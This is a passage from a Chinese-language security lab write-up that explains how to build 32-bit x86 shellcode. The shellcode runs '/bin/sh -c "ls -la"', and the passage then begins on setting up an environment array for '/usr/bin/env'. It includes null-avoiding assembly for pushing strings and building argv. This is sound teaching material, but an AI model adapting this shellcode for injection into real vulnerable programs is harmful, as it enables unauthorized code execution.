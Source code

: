#### 执行 `/bin/sh` 并运行命令 `ls -la`

按照要求需要将“-c”和"ls -la"字符串作为参数传给`/bin/sh`所以需要依次将四个字符串入栈：

`argv[3] = 0`

`argv[2] = "ls -la"`

`argv[1] = "-c"`

`argv[0] = "/bin/sh"`

关键代码：

```wasm
      xor  eax, eax 
      push eax          ; Use 0 to terminate the string
      
      push "//sh"
      push "/bin"
      mov  ebx, esp     ; Get the argv[0] address
      
      mov  ecx, "-c##"
      shl  ecx, 16
      shr  ecx, 16
      push ecx
      mov  ecx, esp     ; Get the argv[1] address
      
      mov  edx, "la##"
      shl  edx, 16
      shr  edx, 16
      push edx
      push "ls -"
      mov  edx, esp     ; Get the argv[2] address
           
      ; Construct the argument array argv[]
      xor  eax, eax 
      push eax          ; argv[3] = 0
      push edx          ; argv[2] = "ls -la\0"
      push ecx          ; argv[1] = "-c\0"
      push ebx          ; argv[0] = "/bin//sh\0"
      mov  ecx, esp
```

#### 设置环境变量并执行 `/usr/bin/env`

环境变量数组的起始地址传递给寄存器edx

按照要求：

环境变量数组构造要求为：

`env[3] = 0 // 0 marks the end of the array`

`env[2] = address to the "cccc=1234" string`

`env[1] = address to the "bbb=5678" string`
